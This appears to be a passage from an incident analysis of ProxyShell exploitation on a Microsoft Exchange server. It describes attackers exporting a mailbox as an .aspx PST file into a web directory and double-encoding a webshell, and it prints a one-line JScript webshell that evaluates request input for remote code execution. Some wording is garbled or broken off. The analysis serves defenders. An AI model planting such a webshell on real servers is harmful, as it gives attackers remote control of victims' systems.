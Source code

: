 ```python

```

Moreover, the malicious actor exported 'admin@[xxxxx.com](http://smo.gov.sa/)'  mailbox to the path [“C:\\inetpub\\wwwroot\\aspnet_client\\]on exchange server. This results in a PST file with .aspx extension: rksgzvccymzrvmcv.aspx. Under normal circumstances, “rksgzvccymzrvmcv.aspx” would have been capable of executing javascript code since the attached file “FileAttachment.txt” in the draft email is usually a webshell, however, since this was the first email created by the malicious actor, refer to the below figure. created draft emails have a webshell in the attachment.

![The Export email that contains a webshell](ProxyShell%20vulnerabilities%20exploited%20da4098be500e42e19bcfa44398c199ff/Untitled_3.png)

The Export email that contains a webshell

The attachment “FileAttachment.txt” is a webshell with javascript code, and it runs on the server. The javascript code is first encoded for the PST, then encoded again using base64. The first encoding is for the Personal Storage Table (PST) data. According to Microsoft Developer Network the PST [A1] format uses Permutative Encoding (NDB_CRYPT_PERMUTE). When the PST file is written to disk, the encoded webshell is decoded with base64 algorithm, then it is decoded again for NDB_CRYPT_PERMUTE[A2] , this results in plain javascript code, refer to Figure 5.
Moreover, all drafts emails created by the malicious actor contain the .comme webshell. For instance, the PST file “hwxydlmzwkyuqtzv.aspx” contains JavaScript code with RCE:

```python
script language = 'JScript' runat = 'server' >function Page_Load() {    eval(Request['exec_code'], 'un.comfe');    Response.End;.}< /script>
```
